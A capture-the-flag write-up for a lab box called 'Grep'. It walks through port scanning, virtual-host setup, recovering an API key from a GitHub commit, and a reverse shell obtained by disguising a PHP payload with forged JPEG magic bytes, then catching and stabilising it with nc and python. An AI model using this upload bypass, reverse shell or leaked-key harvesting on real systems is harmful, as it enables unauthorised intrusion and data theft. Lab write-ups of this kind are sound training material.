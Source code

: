 # Grep

######  OSINT, Easy - x1foideo


## Challenge Description

> A challenge that tests your reconnaissance and OSINT skills


## Initial Recon 

#### Nmap

As usual first thing to do is a _nmap_ recognition

```bash
sudo nmap -sS -sV -p- <IP>
```
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
443/tcp   open  ssl/http Apache httpd 2.4.41
51337/tcp open  http     Apache httpd 2.4.41
```

#### Virtual Host

Trying to get access to our website:
- On port 80 we get _Apache2 Ubuntu Default Page_
- On port 443 we get a Forbidden Page
- On port 51337 we get a Forbidden Page

Surfing the internet it's possible to see that this situation is quite common in CTFs that use Apache, for _Virtual Hosts_.

Wikipedia says:

> **Virtual hosting** is a method for hosting multiple domain names (with separate handling of each name) on a single server (or pool of servers). This allows one server to share its resources, such as memory and processor cycles, without requiring all services provided to use the same host name.

It is possible to solve this problem editing _/etc/hosts_, adding **ip** and relatively **name**

```bash
sudo nano /etc/hosts
```

We get the names checking the certificates, so we add:

```plaintext
<IP> grep.thm leakchecker.grep.thm
```

Now we got access to:
- https://grep.thm:443
- http://leakchecker.grep.thm:51337

## Solution

#### API Key

> What is the API key that allows a user to register on the website?

Trying to register we get an error:

**Invalid or Expired API key**

The name of the website is quite ambiguous (_SearchME!_), and we need to keep in mind this is a OSINT Challenge.

What to do if not looking on GitHub?

On GitHub looking for _SearchME!_ gives us 12 results, but no one seems to be suitable for us.
Moving to _Code_ Filter, we find out that there is a _"supersecuredeveloper/searchmecms · public/html/index.php"_ with something interesting in it:

IMAGE

Inspecting code we find that the API is in the _register.php_ file, under api.
Unfortunately the developer was smart enough not to make public the API...

IMAGE

OR NOT

Looking the history of the file, there is a _Initial Commit_, in which it's possible to find the API-Key.


#### First Flag

> What is the first flag?

Using _Burp Suite_, we are able to edit 

_X-Thm-Api-Key: e8d25b4208b80008a9e15c8698640e85_

With the new key we found and register successfully.

Login

Get the Flag


#### Admin User Mail

> What is the email of the "admin" user?

Inspecting the folders and files of the GitHub Repo, we find out that there is a _upload.php_ file, under the "api" folder.

This file let us upload image files, and applies some checks, preventing us from uploading different files.
How? Checking the Magic Bytes.

In the mean time it's possible to notice that the uploaded files are uploaded in the "uploads" folder.

Rev Shell? Of Course, Why Not?

- Create a \*.php file
```bash
nano monkey.php
```
- Paste the PHP PentestMonkey Payload
- Since we need to edit the first bytes of the file, let's add at the beginning of the file as many dots as bytes we are going to edit
  (EG: line 12 in _upload.php_ shows that 'jpg' magicbytes are _'ffd8ffe0'_, 4 bytes --> 4 dots)
  ```plaintext
  ....<?php
  ```
- Edit the magicbytes
  ```shell
  hexeditor monkey.php
  ```
  Change the 2E at the beginning with ffd8ffe0
- On local Machine
  ```bash
  nc -lvnp 9999
  ```
- On the website navigate to _/public/html/upload.php_
- Upload the file
- Navigate to /api/uploads/ and open the file


_Extra: Stabilize the shell_

- After Getting the Revshell with nc paste
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```
- Press `CTRL + Z` to background process
- Paste
  ```bash
  stty raw -echo; fg
  ```
- Paste
```bash
export TERM=xterm
```

Move to _backup_ folder in _/var/www_ and cat 'users.sql'.

Get the Admin email


#### eMail LeakChecker

> What is the host name of the web application that allows a user to check an email for a possible password leak?

EZ PZ we got this before, without realizing it.
It's simply the second host name we got before on port 51337


#### Admin Password

> What is the password of the "admin" user?

EZ PZ.
Copy and paste the email and get the password


#nmap #revshell #reverseshell #github #burp #vhost #virtualhost
